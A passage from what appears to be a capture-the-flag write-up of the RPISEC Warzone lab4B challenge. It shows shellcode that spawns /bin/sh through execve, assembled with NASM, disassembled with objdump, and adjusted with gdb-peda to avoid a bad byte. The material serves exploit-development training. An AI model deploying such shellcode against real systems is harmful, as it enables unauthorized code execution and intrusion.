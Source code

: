 ```nasm
mov    edx, eax ; EDX = 0
mov    al, 0xb ; sys_execve()
int    0x80
```

**Note** The *Warzone* VM doesn't have **NASM** installed, so I did the development on another Linux VM.
{: .notice--info}

```shell
$ nano shellcode.asm
$ nasm -f elf32 shellcode.asm
```

Then, we can check the code and generate the shellcode.

```shell
$ objdump -M intel -d shellcode.o

shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax ; 50 = "P" - it will break the code
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   89 c1                   mov    ecx,eax
  11:   89 c2                   mov    edx,eax
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
```

Here, the `push eax` will cause an issue as it will be *0x50* in machine code. To bypass this issue, let's see if we can find a reference to `/bin/bash` in memory to gain some space and remove the `push eax` instruction.

```nasm
lab4B@warzone:/levels/lab04$ gdb -q ./lab4B
Reading symbols from ./lab4B...(no debugging symbols found)...done.
gdb-peda$ break main
Breakpoint 1 at 0x8048691
gdb-peda$ run
Starting program: /levels/lab04/lab4B

...[snip]...

Breakpoint 1, 0x08048691 in main ()
gdb-peda$ searchmem "/bin/bash"
Searching for '/bin/bash' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xbffff8b4 ("/bin/bash")
```
